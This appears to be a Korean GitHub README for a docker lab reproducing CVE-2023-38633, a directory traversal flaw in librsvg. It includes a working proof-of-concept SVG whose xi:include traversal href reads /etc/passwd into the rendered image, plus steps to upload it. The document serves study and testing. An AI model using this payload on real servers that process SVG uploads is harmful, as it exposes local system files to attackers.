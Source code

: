 # CVE-2023-38633

**Contributors**

-   [박건호(@ian9292)](https://github.com/ian9292)
-   [이승환(@EL55)](https://github.com/EL55)

<br/>

### 요약

- Librsvg는 GNOME 프로젝트의 일부로 작성된 무료 소프트웨어 SVG 렌더링 라이브러리로, 가볍고 이식성이 뛰어남.
- 2.56.3 이전의 libsvg의 URL 디코더에서 Directory Traversal 문제는 로컬 또는 원격 공격자가 파일(예상 영역 밖의 로컬 파일 시스템에 있는)을 노출하는 데 사용될 수 있음.
- xi:include 요소에서 `href=".?../../../../../../../../../../etc/passwd"`와 같은 방식으로 사용될 수 있음.
- xi: include 요소에서 `href="?"?/../../.././etc/passwd`에 의해 알 수 있음.

<br/>

### 환경 구성 및 실행

-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8080/`에 접속하여 업로드 페이지에 접근함.
-   `SVG 이미지를 서버에 업로드하면 '/etc/passwd'가 포함된 이미지가 표시됨.

<br/>

### poc.svg

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,255,255);" />
  <text x="10" y="100">
    <xi:include href=".?../../../../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

<br/>

### 결과

![](1.png)
